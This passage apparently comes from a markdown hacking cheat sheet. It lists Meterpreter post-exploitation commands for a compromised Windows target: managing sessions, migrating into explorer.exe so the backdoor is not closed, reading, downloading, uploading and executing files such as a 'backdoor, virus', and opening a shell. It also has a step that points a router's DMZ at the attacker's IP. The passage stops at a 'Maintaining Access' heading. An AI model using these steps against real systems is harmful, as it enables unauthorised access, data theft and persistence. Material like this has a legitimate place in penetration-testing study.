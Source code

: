 Go to the router settings; 
Change DMZ address to hackers ip address.

# Post Exploitation

### Meterpreter basics

After getting a meterpreter session you can run the session in the background so that you can run other exploits
`meterpreter> background`

Show a list with all the current sessions
`meterpreter> sessions -l` 

Interact with a meterpreter session running in the background
`kali@root> sessions -i 2`  

Show the system information
`meterpreter> sysinfo`

Show the network interfaces of the target computer
`meterpreter> ipconfig`

Show all the processes running on the computer
`meterpreter> ps`

Migrate to another proces running on the target computer,
safest thing to do is migrate to explorer.exe because this is the GUI of the target computer. 
If you don't do this, and the target closes your backdoor or program running, you will be disconnected.
`meterpreter> migrate 2116` (2116 is the process id for example of explorer.exe)

Get current working directory
`meterpreter> pwd`

List all files and directories
`meterpreter> ls`

Read a file
`meterpreter> cat text.txt`

Download a file
`meterpreter> download text.txt`

Upload a file (mostly a backdoor,virus,...)
`meterpreter> upload file.exe`

Execute a file
`meterpreter> execute -f file.exe`

Use a windows command prompt
`meterpreter> shell`

### Maintaining Access 

#### Method 1: using a veil-evasion (does not always work)
